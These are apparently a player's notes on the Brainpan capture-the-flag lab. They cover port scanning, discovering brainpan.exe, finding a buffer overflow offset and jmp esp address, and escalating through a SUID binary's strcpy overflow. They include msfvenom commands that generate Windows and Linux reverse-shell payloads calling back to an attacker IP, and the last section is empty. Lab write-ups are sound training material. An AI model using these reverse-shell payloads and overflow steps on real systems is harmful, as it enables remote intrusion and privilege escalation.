 
10.10.157.116

[[1 - nmap]]
9999/tcp  open  abyss?
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)

[[2 - nc]]
nc 10.10.157.116 9999
found a bof vuln

[[3 - web n gobuster]]
gobuster
http://10.10.157.116:10000/bin                  (Status: 200) [Size: 230]
here we found brainpan.exe

[[4 - brainpan.exe in r2]]
found the password and checked out the program structure

[[5 - brainpan.exe in x32dbg]]
opened it in x32dbg and run a fuzzer script with a non repeating string
offset 524
Checking badchars: We can't find any but \x00
We found a jmp esp address at 0x311712f3

[[6 - Run an exploit for windows]]
Created a payload: `msfvenom --payload 'windows/shell_reverse_tcp' LHOST=10.21.31.111 LPORT=443 --format 'python' --bad-chars '\x00\x0a'`
Ran via python
Is this windows? Very odd quirky shell! Found wine info in the environment vars and ability to run linux executables
The first "hint" was that brainpan.exe is kept running by a bash script!
If we read more carefully we can see: `/usr/bin/wine /home/puck/web/bin/brainpan.exe &` is being run

[[7 - run an exploit for linux]]
Created a payload: `msfvenom --payload 'linux/x86/shell_reverse_tcp' LHOST=10.21.31.111 LPORT=444 --format 'python' --bad-chars '\x00'`
Ran via python and got a nice linux shell :)
We found a root sudo binary but we don't have access to it. We need to be able to access anansi's user directory.
We found a suid binary owned by anansi. Let's download it (I used nc) and check it out.
Downloaded "validate" using nc

[[8 - validate exec in ghidra]]
Ghidra gave us a simple decompiled c code
We can see that is the input string at any position contains an "F" then the loop will exit (meaning this is a bad char!).
If we reach the end of the string, going one character at a time, the full string will be copied using the vulnable strcpy() and the function returns.
The buffer we copy into is 100 characters.
I tested to send an argument with 120 characters and got a segmentation fault as expected. time for edb and python

[[9 - suid shellcode]]



